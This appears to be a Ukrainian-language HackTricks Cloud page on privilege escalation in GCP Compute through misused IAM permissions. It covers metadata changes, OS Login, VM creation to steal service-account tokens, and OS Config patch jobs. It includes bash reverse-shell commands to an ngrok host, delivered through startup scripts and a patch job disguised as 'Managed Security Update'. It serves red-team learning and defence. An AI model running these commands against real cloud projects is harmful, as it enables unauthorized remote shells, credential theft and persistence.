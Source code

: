 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

Для отримання додаткової інформації про Compute та VPC (мережу) в GCP перевірте:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Зверніть увагу, що для виконання всіх атак підвищення привілеїв, які вимагають зміни метаданих екземпляра (наприклад, додавання нових користувачів та SSH ключів), **необхідно, щоб у вас були права `actAs` на SA, прикріплену до екземпляра**, навіть якщо SA вже прикріплена!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

З цією дозволом ви можете **модифікувати** інформацію про **метадані** **екземпляра** та змінити **авторизовані ключі користувача**, або **створити** **нового користувача з правами sudo**. Таким чином, ви зможете виконати SSH в будь-який екземпляр VM і вкрасти GCP Service Account, з яким працює екземпляр.\
Обмеження:

* Зверніть увагу, що GCP Service Accounts, які працюють в екземплярах VM за замовчуванням, мають **дуже обмежений обсяг**
* Вам потрібно буде **мати можливість зв'язатися з сервером SSH** для входу

Для отримання додаткової інформації про те, як експлуатувати цей дозвіл, перевірте:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Ви також можете виконати цю атаку, додавши новий стартовий скрипт і перезавантаживши екземпляр:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Ця дозволяє надає **ті ж привілеї, що й попереднє дозволу**, але для конкретних інстансів, а не для всього проекту. **Ті ж експлойти та обмеження, що й для попереднього розділу, застосовуються**.

### `compute.instances.setIamPolicy`

Цей вид дозволу дозволить вам **наділити себе роллю з попередніми дозволами** та ескалувати привілеї, зловживаючи ними.

### **`compute.instances.osLogin`**

Якщо **OSLogin увімкнено в інстансі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до інстансу. Ви **не матимете root привілеїв** всередині інстансу.

{% hint style="success" %}
Щоб успішно увійти з цим дозволом всередині VM інстансу, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Якщо **OSLogin увімкнено в інстансі**, з цим дозволом ви можете просто виконати **`gcloud compute ssh [INSTANCE]`** і підключитися до інстансу. Ви матимете **root привілеї** всередині інстансу.

{% hint style="success" %}
Щоб успішно увійти з цим дозволом всередині VM інстансу, вам потрібно мати дозвіл `iam.serviceAccounts.actAs` на SA, прикріплену до VM.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Можливо **створити віртуальну машину з призначеним обліковим записом служби та вкрасти токен** облікового запису служби, отримуючи доступ до метаданих для ескалації привілеїв до нього.

Скрипт експлойту для цього методу можна знайти [тут](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py).

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Якщо у вас є **`osconfig.patchDeployments.create`** або **`osconfig.patchJobs.exec`** дозволи, ви можете створити [**роботу з патчами або розгортання**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching). Це дозволить вам переміщатися в середовищі та отримати виконання коду на всіх обчислювальних інстансах у проекті.

Зверніть увагу, що на даний момент вам **не потрібен дозвіл `actAs`** на SA, прикріплену до інстансу.

Якщо ви хочете вручну експлуатувати це, вам потрібно створити або [**роботу з патчами**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **або** [**розгортання**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**.**\
Для роботи з патчами виконайте: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Щоб розгорнути патч-розгортання:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
Інструмент [patchy](https://github.com/rek7/patchy) міг бути використаний у минулому для експлуатації цієї неконфігурації (але зараз він не працює).

**Зловмисник також може зловживати цим для постійності.**

### `compute.machineImages.setIamPolicy`

**Надайте собі додаткові дозволи** на образи обчислень.

### `compute.snapshots.setIamPolicy`

**Надайте собі додаткові дозволи** на знімок диска.

### `compute.disks.setIamPolicy`

**Надайте собі додаткові дозволи** на диск.

### Обхід доступу до обсягів

Слідуючи за цим посиланням, ви знайдете деякі [**ідеї для спроби обійти доступ до обсягів**](../).

### Локальне підвищення привілеїв у GCP Compute інстансі

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Посилання

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Вчіться та практикуйте AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Вчіться та практикуйте GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримка HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами в **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Діліться хакерськими трюками, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на github.

</details>
{% endhint %}
